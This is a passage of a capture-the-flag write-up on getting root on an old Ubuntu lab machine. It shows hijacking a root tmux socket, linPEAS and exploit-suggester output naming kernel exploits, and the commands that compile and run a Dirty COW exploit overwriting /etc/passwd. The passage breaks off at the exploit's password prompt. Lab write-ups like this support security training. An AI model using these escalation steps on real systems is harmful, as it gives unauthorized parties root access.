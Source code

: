 ```
root       1049  0.0  0.1  26416  1668 ?        Ss   01:49   0:07 /usr/bin/tmux -S /.devs/dev_sess
```
In the list of processes above we can see the last row ```/usr/bin/tmux -S /.devs/dev_sess``` that is running as root.  
so if we execute the same command we can drop a tmux session as root.

### Method 2 - Dirty Cow Kernel Exploit
As we initially discovered, this operating system is quite old, and this is also confirmed by linPEAS that is marking the kernel version as a as a highly probable privilege escalation vector.  
```
╔══════════╣ Operative system                              
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits                                                                                                                                                                
Linux version 3.2.0-23-generic (buildd@crested) (gcc version 4.6.3 (Ubuntu/Linaro 4.6.3-1ubuntu4) ) #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012
```
And is automatically suggesting few kernel exploits.
```
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 3.2.0
  Searching 72 exploits...

  Possible Exploits
  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
```
So, let's try to escalate the privileges to root using dirty_cow.  
First we'll need to compile the .c source, let's check if gcc is installed.
```
hype@Valentine:/dev/shm$ gcc
gcc: fatal error: no input files
compilation terminated.
```
Now let's check for compile instruction and build the binary.
```
hype@Valentine:/dev/shm$ cat dirty.c | grep gcc
//   gcc -pthread dirty.c -o dirty -lcrypt
hype@Valentine:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt
hype@Valentine:/dev/shm$ ls
dirty  dirty.c
```
Once we have compiled the source, we can run ./dirty
```
hype@Valentine:/dev/shm$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
```
